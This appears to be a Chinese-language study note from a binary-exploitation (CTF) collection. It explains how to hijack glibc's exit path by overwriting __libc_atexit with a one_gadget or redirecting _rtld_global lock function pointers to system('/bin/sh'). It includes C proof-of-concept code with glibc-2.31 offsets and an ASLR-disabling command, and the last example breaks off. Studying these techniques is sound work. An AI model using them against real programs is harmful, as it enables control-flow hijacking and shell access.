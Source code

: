 __注:__

函数指针`f->func.cxa.fn`, 偏移为`&initial+0x18`; 函数参数`f->func.cxa.arg`, 偏移为`&initial+0x20`; 第二个参数由exit传入

如果开启了`ASLR`会导致`libc`和`ld`的偏移不固定，无法通过`libc`基地址计算`_dl_fini`函数地址

### 攻击 `_IO_cleanup`

1. 修改`__libc_atexit`函数指针指向`one_gadget`
2. `exit`即可触发漏洞

__示例:__

```C
/**
 * glibc版本 : glibc-2.31(未修改)
 */

#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
int main(void)
{
    // 泄露地址
    char *libc_base = ((char *)(&system) - 0x55410);
    size_t* __libc_atexit = (size_t*)(libc_base + 0x1ED608);

    // 设置HOOK指针的地址为one_gadget的地址
    *__libc_atexit = (size_t)(libc_base + 0xe6aee);

    // 触发漏洞
    exit(1);

    return 0;
}
```

__注:__

2.35及其后面的版本不可写，之前的版本更新后也不可写，需要通过`gdb`动调查看`__libc_atexit`是否可写

### 攻击_dl_fini

四种方法:
修改`_rtld_global._dl_rtld_lock_recursive`为`one_gadget`
修改`_rtld_global._dl_rtld_unlock_recursive`为`one_gadget`
修改`_rtld_global._dl_rtld_lock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`
修改`_rtld_global._dl_rtld_unlock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`

调用`exit`即可触发漏洞

__示例:__

```C
/**
 * 修改`_rtld_global._dl_rtld_lock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`
 * 关闭ASLR  : sudo sysctl -w kernel.randomize_va_space=0
 * glibc版本 : glibc-2.31(未修改)
 */
#include <stdio.h>
#include <stdlib.h>

char *binsh = "/bin/sh";

int main(void)
{
    /* 泄露地址 */

    // p/x &system
```